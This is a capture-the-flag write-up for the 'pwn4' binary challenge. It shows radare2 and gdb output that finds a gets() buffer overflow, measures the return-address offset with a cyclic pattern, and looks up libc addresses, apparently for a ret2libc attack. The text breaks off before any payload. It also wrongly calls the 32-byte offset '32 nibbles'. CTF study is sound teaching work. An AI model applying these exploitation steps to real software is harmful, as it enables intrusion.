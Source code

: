 # write-up pwn4 (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

Disassemble using `r2 -e dbg.profile=profile.rr2`, with `profile.rr2`

````bash
#!/usr/bin/rarun2

program=./pwn4
stdin=./stdin
````

The binary use NX security mechanism

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function `sym.main ()` has a function call to `sym.reduced_shell ()`

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function `sym.reduced_shell ()` contains a `sym.imp.gets ()` call, with `local_1ch` variable, renamed to `INPUT`

````python
[0x080485ef]> afvd
var local_1ch = 0xffe4111c  0x080487a5  .... (LOAD0) (/home/vagrant/ctf/tamu18/pwn4/pwn4) main program R X 'add esp, 0x10' 'pwn4'
````

````python
[0x080485ef]> afvn local_1ch INPUT
````

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

The offset to the return address is 32 nibbles.

````python
[0x08048641]> dmi
0x08048000 /home/vagrant/ctf/tamu18/pwn4/pwn4
0xf754b000 /lib/i386-linux-gnu/libc-2.19.so
````

````bash
(ctftools)vagrant@ctf-tools:~/ctf/tamu18/pwn4$ gdb -q /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
(gdb) p system
$1 = {<text variable, no debug info>} 0x40310 <system>
(gdb) p putchar
$2 = {<text variable, no debug info>} 0x66610 <putchar>
(gdb) p read
$3 = {<text variable, no debug info>} 0xdd3e0 <read>
````

